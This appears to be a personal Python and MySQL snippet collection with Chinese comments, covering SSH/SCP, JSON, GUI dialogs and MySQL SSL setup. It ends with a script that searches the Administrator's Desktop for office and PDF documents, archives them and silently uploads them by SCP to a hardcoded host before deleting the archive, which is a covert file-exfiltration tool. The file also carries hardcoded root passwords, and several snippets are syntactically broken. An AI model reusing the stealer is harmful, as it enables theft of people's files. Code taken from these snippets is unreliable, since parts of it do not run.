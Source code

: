 # -*- mode=python ending:utf-8 -*-
#############-----------------         随机验证码           ---------##############################
import random
def get_code(xx):
   a='1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
   b=''
   for i in range(xx):
        c=random.randint(0,61)
        b+=a[c]
   return b   
   
#####################  ###-----------------        python打包为tar包        ---------###########
 tar=tarfile.open("a.tar.gz","w:gz")
    for i in file:
        tar.add(i)
    tar.close()  
#####################  ###-----------------        获取系统命令返回值         ---------###########
import subprocess
(a,b)=subprocess.getstatusoutput("curl -Ss ifconfig.me")

##########################---------------         遍历目录查找文件    ---------#############

def search(dir,fil):
    os.chdir(dir)
    it = os.listdir()
    for i in it:
        pa = os.path.join(dir,i)
        if os.path.isdir(pa):
            search(pa,fil)
            os.chdir(os.pardir)
        elif fil in pa.split("/")[-1] :
            print(pa)
##########################-----------------         ssh 密钥认证           ---------################
#公钥打包exe程序需要添加 --key id_rsa参数  pyinstaller -F -w --key id_rsa .py      
import paramiko
client = paramiko.SSHClient()
client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
private_key=paramiko.RSAKey.from_private_key_file("id_rsa")
client.connect(hostname='192.168.116.200', port=22, username='root', pkey=private_key)
print(client.get_transport().is_active())
stdin, stdout, stderr = client.exec_command('ls')
a,b=stdout.read(),stderr.read() 		 #获取执行结果   
result= a if a else b       
print(result.decode())
#--------------------------------------------       scp上传下载            ---------################
import paramiko
s=paramiko.Transport(("192.168.116.200",22))
s.connect(username='root',password='xiaoxue')
sftp=paramiko.SFTPClient.from_transport(s)
sftp.get("/usr/local/nginx/html/aaa.txt",'c.txt')


#######################---------------         time获取时间              ---------##############################
time.strftime("%Y_%m_%d_%H:%M:%S",time.localtime(time.time()))


######################-----------------        json编码解码              ---------##############################
import json
js={"name":"张三","age"=26}            
json.dumps(js)          #json编码
json.loads(js)          #json解码

with open("a.js",'w') as f :             #保存为文件   
      json.dump(js,f)                    #json编码
         
with open('a.js','r') as f:              #读取文件
     js=json.load(f)                     #json解码


#####################-----------------        弹出提示对话框,判断有文件    ---------###########################
--  1   （推荐）----------------------------------------------------------------------------------------------
import easygui
easygui.msgbox("what are you doing now\n\n",'提示')
--  2   ------------------------------------------------------------------------------------------------------
import win32api,os,sys      
import win32con            
if os.path.isfile("src\\id_rsa.txt"):
    pass
else:
    win32api.MessageBox(win32con.NULL, "没有文件", "提示",win32con.MB_OK | win32con.MB_ICONINFORMATION)
    sys.exit(0)
--  3   -------------------------------------------------------------------------------------------------------
from tkinter import  messagebox
easygui.msgbox("lalala~",'提示')
easygui.ccbox("lalala~",'提示')   #True,False

--  4   -------------------------------------------------------------------------------------------------------
import tkinter
import tkinter.messagebox #弹窗库
1、提示消息框
tkinter.messagebox.showinfo('提示','人生苦短')
2、消息警告框
tkinter.messagebox.showwarning('警告','明日有大雨')
3、错误消息框
tkinter.messagebox.showerror('错误','出错了')
4、对话框
tkinter.messagebox.askokcancel('提示', '要执行此操作吗')#确定/取消，返回值true/false
tkinter.messagebox.askquestion('提示', '要执行此操作吗')#是/否，返回值yes/no
tkinter.messagebox.askyesno('提示', '要执行此操作吗')#是/否，返回值true/false
tkinter.messagebox.askretrycancel('提示', '要执行此操作吗')#重试/取消，返回值true/false
5、文件对话框
import tkinter.filedialog
a=tkinter.filedialog.asksaveasfilename()#返回文件名
print(a)
a =tkinter.filedialog.asksaveasfile()#会创建文件
print(a)
a =tkinter.filedialog.askopenfilename()#返回文件名
print(a)
a =tkinter.filedialog.askopenfile()#返回文件流对象
print(a)
a =tkinter.filedialog.askdirectory()#返回目录名
print(a)
a =tkinter.filedialog.askopenfilenames()#可以返回多个文件名
print(a)
a =tkinter.filedialog.askopenfiles()#多个文件流对象
print(a)
#################################-----------------        mysql数据库操作连接          ---------###########
create table IF NOT EXISTS ab(id int(50) primary key,name varchar(20),message varchar(100)) DEFAULT CHARSET=utf8;
mysql_ssl_rsa_setup --uid=mysql
vim /etc/my.cnf
ssl-ca=/var/lib/mysql/ca.pem
ssl-cert=/var/lib/mysql/server-cert.pem
ssl-key=/var/lib/mysql/server-key.pem
require_secure_transport = ON
bind-address = 0.0.0.0
systemctl  restart mysqld
ALTER USER 'root'@'%' require ssl;                                        #修改用户只允许ssl连接 
grant all privileges on *.* to 'root'@"%" identified by 'Pwd@123456' require ssl;    #授权时候只允许ssl
FLUSH PRIVILEGES;
show variables like '%ssl%';   #查看是否开启ssl连接
\s                              #看是否是ssl连接
alter user 'root'@'%' require x509;         #证书(pymysql不能用)
mysql -uroot -pPwd@123456 -h 192.168.116.200 --ssl-cert=/var/lib/mysql/client-cert.pem --ssl-key=/var/lib/mysql/client-key.pem --ssl-ca=/var/lib/mysql/ca.pem
###############-----------------                ssl+pymysql                 -------------------------
db = pymysql.connect(host="192.168.116.200",user="root",passwd="Pwd@123456",database="python",ssl={"ssl":''}})
a= db.cursor()
a.execute('insert into  user(ip,time) values("123","80:02"')) #创建写入数据
db.commit()
a.execute('select time  from {} where ip="{}";'.format(abrr,who))           #查询读取数据
print(a.fetchall())

#################################-----------------        检索文件远程发送         ---------###########
import os,paramiko,time,tarfile,easygui,threading,socket
from scp import SCPClient
def SCP(file):
    ssh=paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    ssh.connect(hostname="192.168.116.200", port=22, username='zhangsan', password="zs")
    scp=SCPClient(ssh.get_transport(),socket_timeout=15.0)
    os.chdir("C:\\Users\\Administrator\\")
    tar=tarfile.open(tarn,"w:gz")
    for i in file:
        tar.add(i)
    tar.close()
    scp.put(tarn,"~")
    os.remove(tarn)
    scp.close()
wenjian = []
def search(dir):
    global wenjian
    jiewei=['doc','docx','xls','xlsx','txt','pdf']
    os.chdir(dir)
    it = os.listdir()
    for i in it:
        pa = os.path.join(dir,i)
        if os.path.isdir(pa):
            search(pa)
            os.chdir(os.pardir)
        else:
            for i in jiewei:
                if i in pa.split("\\")[-1]:
                  wenjian.append(pa)
if __name__=="__main__":
  try:
    a=time.time()
    tarn = socket.gethostbyname(socket.gethostname()) + ".tar.gz"
    search("C:\\Users\\Administrator\\Desktop")
    threading.Thread(target=SCP,args=(wenjian,)).start()
    print("okay..........................",time.time()-a)
  except  Exception as f :
      easygui.msgbox(str(f),'linux')
